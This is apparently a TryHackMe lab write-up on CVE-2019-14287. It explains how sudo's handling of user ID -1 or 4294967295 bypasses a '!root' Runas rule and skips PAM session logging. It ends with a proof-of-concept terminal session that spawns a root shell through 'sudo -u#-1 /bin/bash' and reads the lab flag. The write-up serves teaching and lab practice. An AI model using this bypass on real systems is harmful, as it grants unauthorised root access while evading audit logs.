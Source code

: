 # thm: Sudo Security Bypass CVE-2019-14287

https://tryhackme.com/room/sudovulnsbypass

## Background
	
Runas specification: Runas refers to RUN AS a user. So Runas specification means it can be run as a specific user.

- Sudo (short for “superuser do”) allows a system administrator to delegate privileges, enabling specified users or groups to execute certain commands as the root user or another specified account, while maintaining an audit trail of executed commands and their arguments. The -u option is used to specify the target user identity under which the command should be executed. For example, the whoami command can be run with a specified UID (e.g., 1234) by using the -u option.
```
$ sudo -u#1234 whoami
```
- Sudoers: The configuration file for sudo is located at /etc/sudoers. For example, to allow a specific <user> to execute any command as any user except root, the following rule can be added:
```
<user> ALL=(ALL:!root) NOPASSWD: ALL
```
- PAM: PAM (Pluggable Authentication Modules) is a system used in Unix-like operating systems to handle authentication (checking if a user is allowed to log in or perform certain actions). It provides a flexible way to integrate various authentication mechanisms without needing to modify individual applications. Instead of hardcoding authentication logic into applications, they use PAM to handle it, allowing for easy updates or changes to the authentication process. Configuration is usually in `/etc/pam.d/` or `/etc/pam.conf`. Think of PAM like a middleware for authentication: the application asks PAM “is this user valid?” and PAM handles the actual checking.
## Analysis

The vulnerability of interest occurs in a specific scenario where it is possible to execute a command with root privileges, even when the Runas specification in sudoers explicitly prohibits execution as root while using the ALL clause.

The setresuid(2) and setreuid(2) system calls, which sudo uses to change the user ID before executing a command, treat the value -1 (or its unsigned equivalent 4294967295) as special, resulting in the user ID not being changed when this value is used.

As a result:

    $ sudo -u#-1 id

or

    $ sudo -u#4294967295 id

will actually return 0(i.e. root)

This is because the `sudo` command itself is already running as user ID 0 so when `sudo` tries to change to user ID -1(the setresuid(2) and setreuid(2) system calls), no change occurs. This results in sudo log entries that report the command as being run by user ID 4294967295 and not root (or user ID 0). Additionally, because the user ID specified via the -u option does not exist in the password database, no PAM session modules will be run.

For example, running a command:

    $ sudo -u#1001 whoami

When the command is executed, pam_unix(sudo:session) logs the session open and close events. However, when running a commnad:

    $ sudo -u#-1 whoami

then, pam_unix(sudo:session) will not be executed. Making it almost impossible to detect from the log file.


## PoC
```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
tryhackme@sudo-privesc:~$ sudo whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as root on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as #-1 on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# ls
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}
root@sudo-privesc:~# 
```
